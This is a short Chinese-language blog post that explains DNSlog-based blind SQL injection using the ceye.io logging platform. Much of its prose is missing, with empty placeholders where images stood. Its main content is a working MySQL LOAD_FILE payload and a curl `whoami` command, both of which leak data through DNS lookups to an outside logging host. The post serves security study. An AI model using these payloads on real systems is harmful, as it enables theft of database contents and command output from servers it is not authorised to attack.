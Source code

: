 ```yaml
---
layout: post
title: "1.3.3-SQL注入-SQL盲注-Dnslog盲注"
date: 2018-06-23
category: web安全
tags: sql注入 sql盲注
---
```


## DnsLog盲注

### DnsLog盲注原理
[]
[]
Dnslog平台：http://ceye.io/  
[]

	http://ceye.io/profile
	curl mzq83x.ceye.io

[minglingh]

	curl `whoami`.mzq83x.ceye.io

[]
[]
[]



### DnsLog盲注方法
[]

	核心语法： SELECT LOAD_FILE(CONCAT('\\\\',(select database()),'.mysql.r5ourp.ceye.io\\abc'));
	sql语句不能含有特殊符号


https://github.com/ADOOO/DnslogSqlinj